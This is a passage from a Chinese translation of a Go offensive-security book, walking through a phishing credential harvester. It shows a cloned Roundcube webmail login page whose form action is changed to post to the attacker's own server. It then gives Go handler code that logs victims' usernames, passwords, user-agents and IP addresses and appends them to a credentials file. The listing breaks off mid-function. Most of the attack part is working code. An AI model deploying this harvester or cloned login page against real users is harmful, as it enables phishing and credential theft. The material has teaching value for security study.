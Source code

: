 ```
$ tree
.
+-- main.go
+-- public
   +-- index.html
   +-- index_files
       +-- app.js
       +-- common.js
       +-- jquery-ui-1.10.4.custom.css
       +-- jquery-ui-1.10.4.custom.min.js
       +-- jquery.min.js
       +-- jstz.min.js
       +-- roundcube_logo.png
       +-- styles.css
       +-- ui.js
    index.html
```

*列表 4-7：* [/ch-4/credential_harvester/](https://github.com/blackhat-go/bhg/blob/master/ch-4/credential_harvester/) 的目录列表

*public* 目录中的文件代表着未更改的克隆登录站点。你需要修改原始登录表单，以便将输入的凭证重定向并发送到你自己，而不是合法的服务器。首先，打开 *public/index.html* 并找到用于提交登录请求的表单元素。它应该类似于以下内容：

```
<form name="form" method="post" action="http://127.0.0.1/?_task=login">
```

你需要修改这个标签的 `action` 属性，并将其指向你的服务器。将 `action` 改为 `/login`。别忘了保存。该行现在应该如下所示：

```
<form name="form" method="post" action="/login">
```

为了正确呈现登录表单并捕获用户名和密码，你首先需要提供 *public* 目录中的文件。然后你需要为 `/login` 编写一个 `HandleFunc` 来捕获用户名和密码。你还希望将捕获到的凭证存储在文件中，并进行详细日志记录。

你只需要几十行代码就可以处理这一切。Listing 4-8 展示了完整的程序。

```
package main

import (
    "net/http"
    "os"
    "time"

    log "github.com/Sirupsen/logrus" ❶
    "github.com/gorilla/mux"
)

func login(w http.ResponseWriter, r *http.Request) {
    log.WithFields(log.Fields{ ❷
        "time":       time.Now().String(),
        "username":   r.FormValue("_user"), ❸
        "password":   r.FormValue("_pass"), ❹
        "user-agent": r.UserAgent(),
        "ip_address": r.RemoteAddr,
    }).Info("login attempt")
    http.Redirect(w, r, "/", 302)
}

func main() {
    fh, err := os.OpenFile("credentials.txt", os.O_CREATE|os.O_APPEND|os.O_WRONLY, 0600) ❺
    if err != nil {
        panic(err)
    }
    defer fh.Close()
```